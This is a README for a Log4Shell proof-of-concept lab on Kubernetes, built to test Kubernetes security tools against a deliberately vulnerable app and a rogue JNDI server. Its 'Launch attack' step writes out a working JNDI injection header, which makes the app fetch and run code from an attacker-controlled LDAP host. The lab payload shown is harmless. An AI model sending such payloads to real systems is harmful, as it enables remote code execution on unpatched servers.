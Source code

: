 # log4shell-kubernetes

A log4shell proof of concept running on Kubernetes.

This is not much different from other POCs, just automated in simple steps to test Kubernetes specific security tools.

It uses the following projects:
* https://github.com/christophetd/log4shell-vulnerable-app
* https://github.com/veracode-research/rogue-jndi

For more information, check:
* https://vicenteherrera.com/blog/log4j-part-i/

## Build and push docker images

**This step is optional**. You can build your own images if you want instead of using the ones pushed to quay.io.

```bash
git clone https://github.com/veracode-research/rogue-jndi.git
docker build ./rogue-jndi -t quay.io/vicenteherrera/rogue-jndi -f Dockerfile-rogue-jndi
docker push quay.io/vicenteherrera/rogue-jndi

git clone https://github.com/christophetd/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app
docker build . -t quay.io/vicenteherrera/quay.io/vicenteherrera/log4shell-vulnerable-app
docker push quay.io/vicenteherrera/log4shell-vulnerable-app
cd ..
```

The provided [Dockerfile-rogue-jndi](https://github.com/vicenteherrera/log4shell-kubernetes/blob/main/Dockerfile-rogue-jndi) in this repo is set up to executed on the compromised workload the command:

```bash
touch /root/test.txt
```

## Start Minikube

If you want to test this locally, you can use [Minikube](https://minikube.sigs.k8s.io/docs/) for example.

```bash
minikube start
```

## Deploy on Kubernetes

You can use the online YAML files that points to quay.io container images, no need to clone this repo if you don't need to modify them.

```bash
# vulnerable-log4j deployment and service
kubectl apply -f https://raw.githubusercontent.com/vicenteherrera/log4shell-kubernetes/main/vulnerable-log4j.yaml
# rogue-jndi deployment and service
kubectl apply -f https://raw.githubusercontent.com/vicenteherrera/log4shell-kubernetes/main/rogue-jndi.yaml
```

## Watch logs

```bash
# On different terminals
kubectl logs service/rogue-jndi -f
kubectl logs service/vulnerable-log4j -f
```

## Launch attack

```bash
kubectl run my-shell --rm -it --image curlimages/curl -- sh
curl vulnerable-log4j:8080 -H 'X-Api-Version: ${jndi:ldap://rogue-jndi:1389/o=tomcat}'
exit
```

## Check that the attack succeded on the vulnerable app

```bash
kubectl exec service/vulnerable-log4j -it -- ls /root
```

It should list `test.txt` if the attack is successful.

## More information

* My blog post at "The Vlog": [Log4j 2 vulnerabilities, part I: History](https://vicenteherrera.com/blog/log4j-part-i/)
* Follow me on Twitter: [@vicen_herrera](https://twitter.com/vicen_herrera)
